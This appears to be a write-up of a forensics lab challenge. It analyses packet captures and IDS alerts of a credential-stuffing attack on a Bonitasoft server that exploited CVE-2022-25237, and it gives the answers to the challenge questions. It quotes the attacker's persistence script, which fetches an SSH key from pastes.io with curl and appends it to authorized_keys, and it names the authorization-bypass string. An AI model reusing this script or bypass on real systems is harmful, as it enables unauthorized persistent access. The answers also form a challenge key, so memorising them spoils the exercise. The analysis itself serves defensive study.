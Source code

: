 # Meerkat

#wireshark #jq #http

## Speech
> As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

## Analysis
- Two files, a pcap and a json, I opened the pcap with wireshark and i'll use jq for analysing the json file.

### Wireshark
1. The packets protocol analysis tell us they are some HTTP and SSH (both can be very interesting)
![Wireshark Packets Protocl Analysis](../../img/Meerkat/00_packets_protocol_analysis.png)
2. I'll focus on the HTTP, I ordered by protocol and go on http
! [The beginning of HTTP packets](../../img/Meerkat/01_http_overview.png)
3. We see a lot of 401 from the endpoint */bonita/loginservice*, probably a Brute force, we can look at the packets to see the *HTLM Form* arguments passed and see the "payload" of the attacker
    - We see a lot of "username = "install" & "password" = "install" (not very interesting) but between those we have email of *forela.co.uk* (the company we work for) with not common password, the attacker is probably using a leak of email/password to try to connect (**Credential Stuffing**)
    - Also intersting to see the user-agent is : `python-requests/2.28.1`, so an automated tool/script
    - The IP of the attacker : 156.146.62.213
4. We find the packet with a success connection (packet 2918)
![Connection success](../../img/Meerkat/02_success_brute_force.png)
5. Packet 2921 is very interesting, the attacker uploaded a file
![Upload a malicious file](../../img/Meerkat/03_file_uploaded.png)
   - We can see the filename, also in the *Request URI we have info on how he bypass some restriction
6. After his upload he executed some code on the machine (like whoami or cat /etc/passwd)
7. Let's take a look at the DNS query, we see query to *pastes.io*, why pastes.io ?
    - Let's search for string pastes.io in all packet (Edit>Find Packet...) :
    ![Search for pastes.io](../../img/Meerkat/04_find_pastes_io.png)
    - He did a wget to : *https://pastes.io/raw/bx5gcr0et8* We can do the same, or just visit this webpage, we get :
    ```
    #!/bin/bash
    curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
    sudo service ssh restart
    ```
    - This file is a bash script, this bash script is adding a key to th authorized_keys file of the user .ssh

### JQ
1. I'll begin with a command to get all the alert from the Attacker's IP : `jq 'map(select(.src_ip == "156.146.62.213"))' meerkat-alerts.json`, then I added `| grep 'signature"'` to see what signature/type of alert was raised
    - Interesting signature, seems to be linked to the brute force (also contains the name of the software) : `"signature": "ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)"`
    - Two others interesting signautre : `"ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)"` et `"ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"`
2. With this : `jq 'map(select(.alert.signature == "ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)" or .alert.signature == "ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"))' meerkat-alerts.json` But nothing really interesting :/
Now let's go on the Questions, in order to see what we have already answer and not yet find

## Questions
1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?
    - Bonitasoft (cf. Analysis>JQ>1)
2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?
    - *Credential Stuffing (cf. Analysis>Wireshark>3)
3. Does the vulnerability exploited have a CVE assigned - and if so, which one?
    - CVE-2022-25237 (cf. Analysis>JQ>1)
4. Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?
    - i18ntranslation (cf. Analysis>Wireshark>5)
5. How many combinations of usernames and passwords were used in the credential stuffing attack?
    - 56 (I took the command from the Analysis>JQ>1 and then count)
    ![Count number of combinations](../../img/Meerkat/05_count_number_tentatives.png)
6. Which username and password combination was successful?
    - seb.broom@forela.co.uk:g0vernm3nt (cf Analysis>Wireshark>4)
7. If any, which text sharing site did the attacker utilise?
    - pastes.io (cf. Analysis>Wireshark>7)
8. Please provide the filename of the public key used by the attacker to gain persistence on our host.
    - hffgra4unv (cf. Analysis>Wireshark>7)
9. Can you confirmed the file modified by the attacker to gain persistence?
    - /home/ubuntu/.ssh/authorized_keys (cf. Analysis>Wireshark>7)
10. Can you confirm the MITRE technique ID of this type of persistence mechanism?
    - T1098.004 (After a little bit of research we found : [Account Manipulation: SSH Authorized Keys](https://attack.mitre.org/techniques/T1098/004/))